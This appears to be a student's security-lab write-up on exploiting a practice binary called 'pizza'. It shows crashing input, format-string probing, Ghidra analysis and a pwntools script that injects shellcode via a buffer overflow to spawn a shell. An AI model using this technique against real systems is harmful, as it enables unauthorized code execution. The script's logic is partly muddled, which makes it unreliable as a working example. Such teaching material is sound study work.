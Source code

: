 #  Control Flow Integrity Violation 


The Weeks Lab focus was on Writing a python script using `pwntools` that executes a given program named `pizza.c`, leaks the stack offset, and spawns a shell. Technique used is `buffer overflow`

---

After downloading the victim program: pizza to my desktop and executed it in my terminal with the command `./pizza`; I obtained the error output `bash: ./pizza: Permission denied`, hence, I added execute permissions to the pizza file with the command chmod +x pizza. Rerun the victim program named pizza and did not encountered error.

After running the victim program: pizza to see how it works as it can be shown from the image below:

![Screenshot from 2023-04-30 12-09-30](https://user-images.githubusercontent.com/66968869/235370146-73381ada-ad4d-47cd-9d69-4d2da068bf7f.png)

I then proceeded to Install pwntools by running `pip install pwntools` in my terminal to install pwntools library for Python on my system.

I tried getting to make the victim program "pizza" to crash by entering a long string of the alphabet `A` as my name or prompt for illustration. This led to an output with a segmentation fault in the image as shown below:

![Screenshot from 2023-04-30 12-53-35](https://user-images.githubusercontent.com/66968869/235371217-5ed04c10-2570-4632-a599-71713944d353.png)

Also using format strings to make something strange happen; by running the executable "pizza" and passing in some format string characters, it can be seen that the program is vulnerable(by providing memory addresses) as it can be seen from the image below as a sample output:

![Screenshot from 2023-04-30 16-07-40](https://user-images.githubusercontent.com/66968869/235378266-9a28a003-1ae5-4af0-8cc7-232930b2ebbe.png)

Moreover, running the file `python3 python_injection.py` provided the output below:

![Screenshot from 2023-04-30 16-00-49](https://user-images.githubusercontent.com/66968869/235378272-5416a3b1-c783-46f2-a5bf-8a86afd1dea4.png)

Furthermore, Opening the executable in Ghidra to really see how it works (and the library functions it is using). From the C code in Ghidra disassemble pane it can be seen that, the program is a basic pizza delivery application that accepts a user's name, the quantity of pizzas they wish to purchase, and their credit card information and then calculates the total cost of the transaction. In terms of how it works; the program starts by declaring some variables, including a pointer to a character array that will hold the user's name, a pointer to a block of memory allocated with malloc, and various local variables of different types. The program then prompts the user to enter their name using the print function and reads the input using the getline function. If getline returns 0, the program exits with an error message otherwise, the program then calls the getname function (a custom function defined), passing it pointers as arguments. The program then enters a loop that prompts the user to enter the number of pizzas they want to order using the print function and reads the input using the scanf function. This loop continues until the user enters a valid number between 1 and 10. Once the user enters a valid number, the program calculates the total cost of the order and displays a message using the printf function.The program then reads the user's credit card information using the scanf function and displays a confirmation message using the printf function. The program makes use of the following library functions including but not limited to `malloc` to allocate memory dynamically, `getline` to read input from the user, `printf` to display messages to the user and `scanf` to read input from the user.

Lastly, running the victim program "pizza" in GDB.

## python script using `pwntools` that executes the given program [pizza], leaks the stack offset, and spawns a shell.
Below is a script in python to run the pizza program, getting the pizza program executable to crash (segfault), stack offset and spawning of the shell. 
'''
'#!/usr/bin/env python3

from pwn import *

"Setting up context"
context.arch = 'amd64'
context.os = 'linux'

"Defining the targeted executable"
binary = './pizza'

"Define payload"
offset = 72  # found via manual testing
shellcode = asm(shellcraft.amd64.linux.sh())
padding = b'A' * (offset - len(shellcode))
payload = shellcode + padding + p64(0xdeadbeef)

"Starting the pizza program"
p = process(binary)

"Sending payload"
p.sendline(payload)

"Getting RIP offset"
pattern = cyclic(1000, n=8)
p = process(binary)
p.sendline(pattern)
p.wait()
core = p.corefile
rip_offset = cyclic_find(core.rip, n=8)
log.info(f'RIP offset: {rip_offset}')

"Building final payload"
padding = b'A' * rip_offset
rip = p64(core.rip)
payload = padding + rip + b'\n'
p = process(binary)
p.send(payload)

"Interacting with shell"
p.interactive()

'''
The #!/usr/bin/env python3 instruction at the beginning of this script is used for specifying the version of python interpreter and its dependencies to use when parsing the script. rAlso the instruction `from pwn import *` which is normally used in exploit development to import the "pwntools" library, to provide a set of useful tools and utilities for interacting with vulnerable programs and services and also  providing functionalities for compiling and executing shellcode. Also,
context is one of the function's of "pwntools" library that is used to set various context variables that affect the behavior of the library when interacting with vulnerable programs and services. Arch, os, endian, and word_size variables are some of the options that can be set using the context function. Also the command `binary = './pizza'` to define the targeted executable and linkable format.

![Screenshot from 2023-05-01 07-03-16](https://user-images.githubusercontent.com/66968869/235553801-eab2b4a9-3a04-43ee-b9b3-01a0da7dcc42.png)
